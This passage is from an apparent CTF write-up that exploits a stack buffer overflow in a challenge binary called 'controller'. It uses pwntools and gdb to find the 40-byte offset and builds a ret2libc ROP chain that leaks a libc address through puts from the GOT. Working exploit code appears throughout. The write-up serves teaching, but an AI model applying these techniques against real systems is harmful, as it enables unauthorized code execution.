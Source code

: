 ```
target.sendline(b'3')

print(target.recvuntil(b'Do you want to report the problem?'))

payload = cyclic(500)

target.sendline(payload)

target.interactive()
```

The breakpoint in gdb leaves us at the very end of the calculator function. If we view the contents of the rsp register, we can see that it has been filled with the end of our cyclic payload; comparing the portion displayed here demonstrates that we need a padding length of 40 characters. 
```
Breakpoint 1, 0x00000000004010fd in calculator ()
gef➤  x/s $rsp
0x7ffed9928db8:	"kaaalaaamaaanaaaoaaapaaaq ...
```

Now we can actually start on our ret2libc attack! The basis of this attack is that instead of writing shellcode, we chain together a series of calls to functions that already exist within the binary and associated libc file, which will ideally allow us to gain shell access.

Firstly, we need to ensure that we can leak a libc address every time we execute our script. This is because ASLR (a security feature that will pretty much always be enabled in modern systems) will give all your libc addresses a random base, but each function will be at a constant offset from that base as determined by the libc that is being used. As a result, if we can leak the libc address of a known function, then we determine the libc address of any other function in the libc file, like system(). 

The general strategy to perform a libc leak is to call a function that will write output to the console, such as puts(). We will be leaking the contents of one of the entries of the Global Offset Table, or GOT; basically, the GOT is an area of the binary that contains entries for each libc function that link to addresses in the libc file, so dumping out the contents of the GOT will give us the libc address of a known function. 

So, the basic chain we need to construct is to pop the address of a GOT entry into the rdi register, which will make it the first paramter of our call of the puts() function. Then we call puts to print our libc leak, and then we call main in order to get the opportunity to enter another ROP chain that uses the leak. I personally like to get PLT entry offsets from Ghidra, GOT from gdb will the binary is running (just type got), and the pop rdi gadget from ROPgadget (it comes with pwntools, use something like ROPgadget --binary controller | grep "pop rdi"). The portion of python code to get our libc leak is below:

```
#Gadgets:

puts_got_plt = p64(0x601fb0)
puts_plt = p64(0x00400630)
pop_rdi = p64(0x00000000004011d3) # : pop rdi ; ret
main = p64(0x00401124)

padding = b'a' * 40

payload = padding
payload += pop_rdi
payload += puts_got_plt
payload += puts_plt
payload += main

target.sendline(payload)
result = target.recvuntil(b'Control Room')
result_list = result.split(b'\n')
leak_unproc = result_list[2]
leak_unproc += b'\x00' * 2
```